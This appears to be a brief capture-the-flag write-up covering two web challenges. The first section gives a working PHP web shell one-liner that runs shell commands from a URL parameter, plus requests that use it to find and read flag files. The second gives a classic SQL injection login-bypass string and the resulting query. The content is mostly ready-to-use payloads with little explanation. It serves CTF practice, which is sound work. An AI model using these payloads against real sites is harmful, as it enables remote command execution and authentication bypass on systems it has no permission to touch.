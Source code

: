 ## Gallery
web shell oneliner (must end w/ .php)
```php
$ <?php echo system($_GET["cmd"]); ?>
```
in provided path `/uploads/____/`
```j
foo.php?cmd=find+../../+-name+*flag*
foo.php?cmd=cat+../../*/*flag*
```

## Simple Question of Logic 1
use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

x' or '1'='1
x' or '1'='1
```
as if to say
```erlang
$sql = "select * from users where username = 'x' OR '1'='1' and password = 'x' OR '1'='1'";
```